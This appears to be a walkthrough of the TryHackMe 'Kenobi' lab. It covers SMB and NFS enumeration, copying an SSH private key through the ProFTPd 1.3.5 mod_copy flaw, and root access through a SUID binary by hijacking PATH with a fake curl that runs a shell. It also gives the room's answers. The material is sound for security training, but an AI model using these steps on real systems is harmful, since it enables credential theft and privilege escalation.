








# Kenobi Walkthrough - Tryhackme

[Kenobi](https://tryhackme.com/room/kenobi) is a nice room which involves enumerating Samba and NFS shares, exploiting ProFtpd and then using a SUID binary to escalate privileges.

### Task 1 - Deployment of Machine
1. Deploy the machine and scan for open ports in it.
2. Running Nmap on the host shows 7 ports are open.
    > nmap -sC -sV -p- [HOST-IP] 
    
    

Nmap script tells a lot about the host. The following points are to be noted here
- The host is running Linux.
- There's a website running on port 80, which has 1 disallowed entry in `robots.txt`, also the script found an `admin.html` page. 

- `admin.html` is just a "trap".
- Nmap shows that the host is running samba. Let's enumerate it, which is also the next task.

### Task 2 - Enumerating Samba Shares

Samba has two ports 139, 445.  

Nmap can enumerate Samba shares using nse scripts.
> nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [HOST-IP]

Another way to do it is using the `smbclient`.
> smbclient -N -L //[HOST-IP]/

The `-N` does not check for password and `-L` is to list the shares available.

1. Host has 3 samba shares, of which `anonymous` is of our interest.

Now, connect to the `anonymous` share.
> smbclient -N //[HOST-IP]/anonymous

You can recursively download the SMB share too. Submit the username and password as nothing.
> smbget -R smb://[HOST-IP]/anonymous

2. There is a **log.txt** file in the share.

`log.txt` conatains information about SSH key and ProFTPD and Samba configurations.

This information might be useful later.

3. FTP is running on port **21**.

Earlier nmap port scan had shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Let's use nmap to enumerate this.
> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [HOST-IP]

4. What mount can we see? **/var**

### Task 3 - Gaining Initial Access: Exploiting ProFtpd

1. From Nmap port scan result, ProFtpd version is **1.3.5**.

Checking the Exploit-DB for ProFtpd
> searchsploit proftpd

2. There are **3** exploits for this version of Proftpd.

There is an exploit on the `mod_copy module`. The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Now since the FTP service is running as kenobi user(from log.txt) we can get the private key of kenobi using SITE CPFR and SITE CPTO commands.
> nc [HOST-IP] 21

We put the private key in `var` because it can be mounted using nfs.

Mount the `/var` directory.
> mkdir /mnt/kenobiNFS  
> mount [HOST-IP]:/var /mnt/kenobiNFS  
> cp /mnt/kenobiNFS/tmp/id_rsa .

We now have the private key of kenobi, use this to log in as kenobi and get the user flag.
> ssh -i id_rsa kenobi@[HOST-IP]

### Task 4 - Privilege Escalation

Search for SUID binaries in the system.
> find / -perm -u=s -type f 2>/dev/null

1. What file looks particularly out of the ordinary? **/usr/bin/menu** which is running as root.

Run the menu binary.
> menu

2. Run the binary, how many options appear? **3**

Run strings on it to see what is happening internally.
> strings /usr/bin/menu

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
We can create a malicious curl binary and add it to `$PATH`, so that when `menu` is executed it calls malicious curl.
> echo /bin/sh > /tmp/curl  
> chmod 777 /tmp/curl  
> export PATH=/tmp:$PATH  
> menu

Get the root flag!
